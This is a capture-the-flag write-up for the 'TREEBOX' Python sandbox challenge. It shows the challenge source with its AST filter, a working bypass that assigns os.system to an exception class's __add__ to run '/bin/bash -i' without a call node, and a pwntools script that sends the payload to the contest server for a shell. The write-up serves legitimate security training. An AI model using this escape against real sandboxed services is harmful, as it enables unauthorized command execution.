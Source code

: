 ## TREEBOX
---
### Attachment

```python
#!/usr/bin/python3 -u
#
# Flag is in a file called "flag" in cwd.
#
# Quote from Dockerfile:
#   FROM ubuntu:22.04
#   RUN apt-get update && apt-get install -y python3
#
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
```

---

### Description

This challenge belongs to the sandbox category, and uses python and takes arbitrary python script input from the client and verifies the program with the `verify_secure()` function.

```python
...snip...
def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True
...snip...
```
---
And here we need to pass this function to execute malicious python script to server, and we need to pass 3 walls:
- ast.Import
- ast.ImportFrom
- ast.Call
---
After some time I found [this](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#python-execution-without-calls) bypass in hacktricks to bypass `call ` and it worked!

```python
# Declare arbitrary exception class
class Klecko(Exception):
  def __add__(self,algo):
    return 1

# Change add function
Klecko.__add__ = os.system

# Generate an object of the class with a try/except + raise
try:__
  raise Klecko
except Klecko as k:
  k + "/bin/bash -i" #RCE abusing __add__
```
---
class `Klecko()` creates a function that `__add__` something and returns 1, but adds the function `os.system` instead, and triggers it with "try except" and appends "/bin/bash -i" to the function of that class have os.system in it? I assume this class is an intermediary between the os.system function and the string "/bin/bash -i" thus producing a function like `os.system('/bin/bash -i')` without calling the `os.system` function. 

---

### Python Solution

```python
import pwn

payload = '''# Declare arbitrary exception class
class Klecko(Exception):
  def __add__(self,algo):
    return 1

# Change add function
Klecko.__add__ = os.system

# Generate an object of the class with a try/except + raise
try:
  raise Klecko
except Klecko as k:
  k + "/bin/bash -i" #RCE abusing __add__
--END'''
p = pwn.remote('treebox.2022.ctfcompetition.com', 1337)
p.recv(1024)
p.sendline(payload)
p.interactive()
```

I just added it to the payload and here we got the shell :)

---
### Reference
- https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#python-execution-without-calls